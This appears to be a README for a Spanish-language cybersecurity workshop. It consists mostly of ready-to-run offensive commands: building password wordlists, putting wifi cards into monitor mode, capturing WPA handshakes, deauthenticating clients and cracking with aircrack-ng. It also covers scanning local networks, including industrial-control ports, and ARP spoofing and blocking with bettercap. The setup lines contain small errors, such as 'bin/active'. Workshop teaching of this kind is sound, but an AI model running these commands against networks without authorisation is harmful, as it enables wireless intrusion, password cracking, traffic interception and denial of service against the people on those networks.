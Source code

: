 # udg-taller-ciberseguridad

## Creando diccionarios
### CEWL
```bash
cewl --min_word_length 4 --write ./passwords.txt --email -v <target>
```
### Wister
```bash
python3 -m venv venv
source venv/bin/active
pip install whister

wister -l #list types

wister -c 1 2 3 4 5 -w <w1> <w2> -o ./passwords_02.txt # merge words
wister -c 3 5 -i passwords.txt -o ./passwords_02.txt # merge file and low combinations
wister -c 1 2 3 4 5 -i passwords.txt -o ./passwords_02.txt # merge file
```


## Atacando redes wifi
```bash

sudo airmon-ng start wlp2s0 # monitor
iwconfig # wifi info

sudo airodump-ng wlp2s0mon ## Scan 2Ghz
sudo airodump-ng wlp2s0mon --essid=<ssid>  ## Scan 2Ghz and filter by regex 
sudo airodump-ng wlp2s0mon --essid-regex=<ssid> --band a ### Scan 5Ghz

## Monitor and capture a handshake
sudo airodump-ng wlp2s0mon -c <channel> --bssid <bssid> -w psk.pcap --output-format pcap 

## Send generic deauth packets, may not work in all scenarios
sudo aireplay-ng -0 0 -a <bssid> wlp2s0mon # broadcast
sudo aireplay-ng -0 0 -a <bssid> -c <client-mac> wlp2s0mon # to 1 client

## Cracking
aircrack-ng -w ./creds.txt --bssid=<bssid> ./psk.pcap-0*

sudo airmon-ng check kill ## stop

```

## Encontrando dispositivos en la red
```bash
netdiscover -i wlp2s0 -r 192.168.1.0/24
netdiscover -i wlp2s0 -p
sudo arp-scan -I wlp2s0 --localnet
```

## Explorando en la red
```bash
nmap -p 502,4840,80,443,8080,8443,1880 -T5 --open 192.168.1.0/24
```

## MITM

`sudo go/bin/bettercap -iface wlp2s0`
| Orden | Descripción |
|-------|---------|
| net.show | Mostrar información sobre la red |
| net.probe on | Iniciar escaneo de host en la red |
| net.recon | Leer periódicamente la tabla ARP del sistema para detectar nuevos hosts en la red. |
| set arp.spoof.targets 192.168.100.100,192.168.100.200 | Establecer un objetivo en la red |
| arp.spoof on| Iniciar arp spoofing |
| set arp.spoof.internal true | Las conexiones locales entre ordenadores de la red también serán falsificadas, de lo contrario solo se falsificarán las conexiones que vayan hacia y desde la red externa. |
| arp.ban on | ARP spoofing en modo de prohibición, lo que significa que la conectividad del objetivo no funcionará. | 
